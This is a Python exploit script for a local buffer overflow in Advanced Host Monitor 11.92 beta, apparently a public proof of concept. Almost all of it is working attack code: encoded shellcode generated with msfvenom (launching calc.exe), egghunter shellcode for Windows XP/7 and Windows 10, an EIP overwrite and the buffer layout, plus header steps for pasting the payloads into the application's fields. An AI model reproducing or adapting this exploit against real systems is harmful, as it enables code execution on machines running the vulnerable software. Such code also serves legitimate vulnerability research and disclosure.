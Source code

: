 EXP
---

    #!/usr/bin/env python

    #------------------------------------------------------------------------------------------------------------------------------------#
    # Exploit: Advanced Host Monitor 11.92 beta - Local Buffer Overflow (EggHunter)                                                      #
    # Date: 2019-03-18                                                                                                                   #
    # Author: Peyman Forouzan                                                                                                            #
    # Tested Against: Winxp SP2 32-64 bit - Win7 Enterprise SP1 32-64 bit - Win10 Enterprise 32-64 bit                                   #
    # Software Download #1: https://www.ks-soft.net/download/hm1192.exe                                                                  #
    # Software Download #2: https://www.ip-tools.biz/download/hm1192.exe                                                                 #
    # Version: 11.92 beta                                                                                                                #
    # The Program also has SEH Overflow, Which can be implemented in a similar way                                                       #
    # Special Thanks to my wife                                                                                                          #
    # Steps : Open the APP --> Tools --> Trace (or Telnet) --> paste in contents from the egg.txt into "Host" --> Start --> Close        #
    #         Advanced Host Monitor --> Options --> Startup --> paste in contents from the egghunter-winxp-win7.txt or                   #
    #         egghunter-win10.txt (depend on your windows version) into "load specific HTML file" --> Save --> Wait a litle -->          #
    #         Shellcode (Calc) open                                                                                                      #
    #------------------------------------------------------------------------------------------------------------------------------------#
    # "Egg" shellcode into memory --> Egghunter field overflow: EIP overwrite                                                            #
    #------------------------------------------------------------------------------------------------------------------------------------#

    #---------------------------------------------------   EGG Shellcode Generation    ---------------------------------------------------

    #msfvenom -p windows/exec cmd=calc.exe BufferRegister=EDI -e x86/alpha_mixed -f python -a x86 --platform windows -v egg
    egg =  "w00tw00t"
    egg += "\x57\x59\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49"
    egg += "\x49\x49\x49\x49\x49\x37\x51\x5a\x6a\x41\x58\x50\x30"
    egg += "\x41\x30\x41\x6b\x41\x41\x51\x32\x41\x42\x32\x42\x42"
    egg += "\x30\x42\x42\x41\x42\x58\x50\x38\x41\x42\x75\x4a\x49"
    egg += "\x79\x6c\x5a\x48\x4e\x62\x77\x70\x57\x70\x63\x30\x71"
    egg += "\x70\x4b\x39\x5a\x45\x35\x61\x4f\x30\x52\x44\x4c\x4b"
    egg += "\x52\x70\x46\x50\x6c\x4b\x53\x62\x54\x4c\x6c\x4b\x43"
    egg += "\x62\x44\x54\x6c\x4b\x71\x62\x51\x38\x34\x4f\x6e\x57"
    egg += "\x31\x5a\x36\x46\x55\x61\x6b\x4f\x4c\x6c\x37\x4c\x75"
    egg += "\x31\x73\x4c\x45\x52\x54\x6c\x77\x50\x49\x51\x48\x4f"
    egg += "\x34\x4d\x53\x31\x69\x57\x39\x72\x4a\x52\x62\x72\x43"
    egg += "\x67\x6e\x6b\x71\x42\x52\x30\x4c\x4b\x70\x4a\x47\x4c"
    egg += "\x6e\x6b\x62\x6c\x62\x31\x72\x58\x6a\x43\x70\x48\x33"
    egg += "\x31\x4e\x31\x52\x71\x4c\x4b\x36\x39\x37\x50\x63\x31"
    egg += "\x5a\x73\x4c\x4b\x42\x69\x52\x38\x68\x63\x57\x4a\x31"
    egg += "\x59\x4e\x6b\x44\x74\x4c\x4b\x55\x51\x38\x56\x50\x31"
    egg += "\x6b\x4f\x6e\x4c\x69\x51\x78\x4f\x46\x6d\x36\x61\x58"
    egg += "\x47\x46\x58\x4b\x50\x52\x55\x39\x66\x65\x53\x71\x6d"
    egg += "\x79\x68\x45\x6b\x31\x6d\x45\x74\x34\x35\x7a\x44\x52"
    egg += "\x78\x4c\x4b\x62\x78\x77\x54\x47\x71\x58\x53\x75\x36"
    egg += "\x6c\x4b\x34\x4c\x70\x4b\x6c\x4b\x52\x78\x35\x4c\x43"
    egg += "\x31\x58\x53\x6c\x4b\x73\x34\x6e\x6b\x67\x71\x58\x50"
    egg += "\x6c\x49\x73\x74\x45\x74\x55\x74\x63\x6b\x61\x4b\x33"
    egg += "\x51\x32\x79\x51\x4a\x36\x31\x49\x6f\x4b\x50\x71\x4f"
    egg += "\x71\x4f\x42\x7a\x6c\x4b\x44\x52\x48\x6b\x6e\x6d\x31"
    egg += "\x4d\x50\x6a\x35\x51\x6e\x6d\x6f\x75\x48\x32\x55\x50"
    egg += "\x75\x50\x53\x30\x46\x30\x55\x38\x74\x71\x4c\x4b\x72"
    egg += "\x4f\x4e\x67\x69\x6f\x6b\x65\x4d\x6b\x5a\x50\x38\x35"
    egg += "\x79\x32\x56\x36\x45\x38\x59\x36\x6a\x35\x6f\x4d\x6f"
    egg += "\x6d\x69\x6f\x59\x45\x35\x6c\x64\x46\x31\x6c\x76\x6a"
    egg += "\x4b\x30\x79\x6b\x4b\x50\x74\x35\x73\x35\x4d\x6b\x73"
    egg += "\x77\x65\x43\x71\x62\x32\x4f\x50\x6a\x75\x50\x31\x43"
    egg += "\x39\x6f\x5a\x75\x55\x33\x43\x51\x72\x4c\x45\x33\x44"
    egg += "\x6e\x62\x45\x31\x68\x62\x45\x63\x30\x41\x41"

    f = open ("egg.txt", "w")
    f.write(egg)
    f.close()

    #-----------------------------------------------   EGG Hunter Shellcode Generation    ----------------------------------------------

    #encode egghunter code produced by mona (looking for w00tw00t) into only alpha characters

    # EggHunter - Modified Version for Winxp and Win7 (32-64 bit)
    egghunter =  "\x4c\x4c\x4c\x4c\x5f"
    egghunter += "\x57\x59\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49"
    egghunter += "\x49\x49\x49\x49\x49\x49\x37\x51\x5a\x6a\x41\x58"
    egghunter += "\x50\x30\x41\x35\x41\x6b\x41\x46\x51\x32\x41\x47"
    egghunter += "\x32\x42\x47\x30\x42\x47\x41\x42\x58\x50\x38\x41"
    egghunter += "\x47\x75\x4a\x49\x70\x66\x4c\x4c\x78\x4b\x6b\x30"
    egghunter += "\x49\x6b\x54\x63\x42\x55\x74\x4a\x66\x51\x69\x4b"
    egghunter += "\x36\x51\x38\x52\x36\x33\x52\x73\x36\x33\x36\x33"
    egghunter += "\x38\x33\x4f\x30\x71\x76\x4d\x51\x6b\x7a\x39\x6f"
    egghunter += "\x66\x6f\x47\x32\x36\x32\x4d\x50\x59\x6b\x59\x50"
    egghunter += "\x33\x44\x57\x78\x43\x5a\x66\x62\x72\x78\x78\x4d"
    egghunter += "\x44\x6e\x73\x6a\x7a\x4b\x37\x62\x52\x4a\x71\x36"
    egghunter += "\x61\x48\x55\x61\x69\x59\x6f\x79\x79\x72\x70\x64"
    egghunter += "\x59\x6f\x75\x43\x73\x6a\x6e\x63\x57\x4c\x71\x34"
    egghunter += "\x47\x70\x42\x54\x76\x61\x72\x7a\x57\x4c\x37\x75"
    egghunter += "\x74\x34\x7a\x76\x6c\x78\x72\x57\x46\x50\x76\x50"
    egghunter += "\x63\x44\x6d\x59\x59\x47\x4e\x4f\x71\x65\x4e\x31"
    egghunter += "\x6e\x4f\x51\x65\x38\x4e\x79\x6f\x4b\x57\x41\x41"

    # EggHunter - Modified Version for Windows10 (32-64 bit)
    egghunter10 =  "\x4c\x4c\x4c\x4c\x5f"
    egghunter10 += "\x57\x59\x49\x49\x49\x49\x49\x49\x49\x49\x49"
    egghunter10 += "\x49\x49\x49\x49\x49\x49\x49\x37\x51\x5a\x6a"
    egghunter10 += "\x41\x58\x50\x30\x41\x35\x41\x6b\x41\x46\x51"
    egghunter10 += "\x32\x41\x47\x32\x42\x47\x30\x42\x47\x41\x42"
    egghunter10 += "\x58\x50\x38\x41\x47\x75\x4a\x49\x4d\x53\x4a"
    egghunter10 += "\x4c\x46\x50\x69\x57\x56\x64\x76\x44\x55\x50"
    egghunter10 += "\x37\x70\x55\x50\x73\x30\x48\x47\x43\x74\x55"
    egghunter10 += "\x74\x35\x54\x57\x70\x47\x70\x35\x50\x65\x50"
    egghunter10 += "\x78\x47\x67\x34\x77\x54\x76\x68\x35\x50\x55"
    egghunter10 += "\x50\x53\x30\x45\x50\x66\x51\x4a\x72\x61\x76"
    egghunter10 += "\x4c\x4c\x58\x4b\x6f\x70\x6b\x4b\x61\x33\x50"
    egghunter10 += "\x75\x63\x32\x4c\x73\x4f\x30\x70\x66\x4b\x31"
    egghunter10 += "\x6a\x6a\x49\x6f\x64\x4f\x62\x62\x73\x62\x4d"
    egghunter10 += "\x50\x69\x6b\x79\x50\x30\x74\x64\x4b\x53\x58"
    egghunter10 += "\x6b\x76\x63\x31\x75\x50\x37\x70\x70\x58\x5a"
    egghunter10 += "\x6d\x54\x6e\x52\x7a\x68\x6b\x67\x61\x30\x31"
    egghunter10 += "\x49\x4b\x73\x63\x51\x43\x30\x53\x32\x4a\x71"
    egghunter10 += "\x39\x63\x68\x38\x33\x49\x50\x51\x74\x69\x6f"
    egghunter10 += "\x66\x73\x6d\x53\x7a\x64\x66\x6c\x42\x7a\x55"
    egghunter10 += "\x6c\x47\x75\x71\x64\x49\x44\x78\x38\x72\x57"
    egghunter10 += "\x66\x50\x74\x70\x31\x64\x4f\x79\x4b\x67\x4c"
    egghunter10 += "\x6f\x70\x75\x78\x4f\x6e\x4f\x44\x35\x48\x4c"
    egghunter10 += "\x6b\x4f\x68\x67\x41\x41"

    eip = "\x4d\x37\x41"

    buffer = egghunter + "\x41" * (268 - len(egghunter)) + eip

    f = open ("egghunter-winxp-win7.txt", "w")
    f.write(buffer)
    f.close()
    buffer = egghunter10 + "\x41" * (268 - len(egghunter10)) + eip
    f2 = open ("egghunter-win10.txt", "w")
    f2.write(buffer)
    f2.close()
